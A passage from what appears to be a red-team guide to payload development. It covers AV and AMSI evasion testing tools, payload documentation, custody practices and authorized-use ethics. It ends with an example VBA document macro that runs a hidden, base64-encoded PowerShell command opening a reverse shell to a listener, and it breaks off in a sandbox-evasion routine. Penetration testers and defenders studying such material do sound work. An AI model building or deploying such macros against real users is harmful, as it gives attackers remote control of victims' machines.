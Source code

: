 ### Evasion Testing

- **AMSI Bypass Tester**: Testing AMSI bypass techniques
- **DefenderCheck**: Identifying flagged content
- **ThreatCheck**: Pinpointing detection signatures
- **AV-Evasion-Tool**: Testing against multiple engines
- **Any.Run**: Interactive sandbox for testing

## Documentation and Process

### Payload Documentation

- **Version Control**: Managing payload iterations
- **Capability Documentation**: Recording functionality
- **Detection Status**: Tracking detection rates over time
- **Effectiveness Metrics**: Success rate in operations
- **Known Limitations**: Documented constraints

### Chain of Custody

- **Secure Storage**: Protected repositories for payloads
- **Access Controls**: Limited distribution of weaponized tools
- **Audit Logging**: Recording access and usage
- **Expiration Policies**: Retirement of outdated payloads
- **Testing Evidence**: Maintaining results of validation testing

## Ethical and Legal Considerations

### Responsible Development

- **Authorized Use Only**: Development for legitimate operations
- **Controlled Distribution**: Limiting access to authorized personnel
- **Documentation**: Clear purpose and scope documentation
- **Defensive Value**: Focusing on security improvement

### Legal Boundaries

- **Rules of Engagement**: Operating within authorized parameters
- **Data Protection**: Avoiding unauthorized data access
- **Proportionality**: Using appropriate technical measures
- **Geographic Considerations**: Awareness of jurisdiction issues
- **Client Protection**: Ensuring proper authorization

## Case Studies and Examples

### Example: Document Macro Payload

```vba
Sub AutoOpen()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    Dim command As String
    ' Obfuscated PowerShell command
    command = "powershell.exe -NoP -W Hidden -Enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAMAAiACwANAA0ADQANAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsA"
    wsh.Run command, 0, False
End Sub

' Anti-analysis technique
Sub Document_Open()
    ' Check if running in sandbox
```